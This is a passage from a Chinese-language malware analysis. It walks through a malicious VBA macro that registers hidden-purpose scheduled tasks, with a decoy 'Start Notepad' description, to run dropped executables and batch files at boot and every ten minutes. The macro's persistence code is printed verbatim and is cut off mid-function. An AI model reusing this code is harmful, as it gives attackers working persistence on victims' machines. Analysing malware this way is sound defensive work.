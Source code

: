 ```vb
Action.Path = "C:\Users\Public\Music\comd.exe"

Call rootFolder.RegisterTaskDefinition( _
    "My_Drive", taskDefinition, 6, , , 3)
Call zxcvbnmlkjhgfdsaqweryu
End Sub

```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-32322a732f5baf4354cc5c64ad043d807fef5d93.png)

#### zxcvbnmgfdsaqweryu 函数分析：

同样的创建计划执行任务，在开机启动 55 秒后，无限期每隔 10 分钟重复一次，执行 C:\\Users\\Public\\Pictures\\pbs.bat 程序，只是 Music 变成了 public 目录而已，这里创建的计划任务名是 Pls\_SSL。

该 public 目录下将会出现的 pbs 文件不是前面 file 函数中写入的 pbs 文件，而是由后面 comd.exe 连接恶意网址下载的远端程序，具体的后面会讲。

```vb
Sub zxcvbnmgfdsaqweryu()
Const TriggerTypeTime = 1

Const ActionTypeExec = 0

Set service = CreateObject("Schedule.Service")
Call service.Connect

Dim rootFolder
Set rootFolder = service.GetFolder("\")

Dim taskDefinition

Set taskDefinition = service.NewTask(0)

Dim regInfo
Set regInfo = taskDefinition.RegistrationInfo
regInfo.Description = "Start Notepad at a certain time"
regInfo.Author = "Win"

Dim principal
Set principal = taskDefinition.principal

principal.LogonType = 3

Dim settings
Set settings = taskDefinition.settings
settings.Enabled = True
settings.StartWhenAvailable = True
settings.Hidden = False

Dim triggers
Set triggers = taskDefinition.triggers

Dim trigger
Set trigger = triggers.Create(TriggerTypeTime)

Dim startTime

Dim time
time = DateAdd("s", 55, Now)
startTime = XmlTime(time)

trigger.StartBoundary = startTime
trigger.Repetition.Interval = "PT10M"
```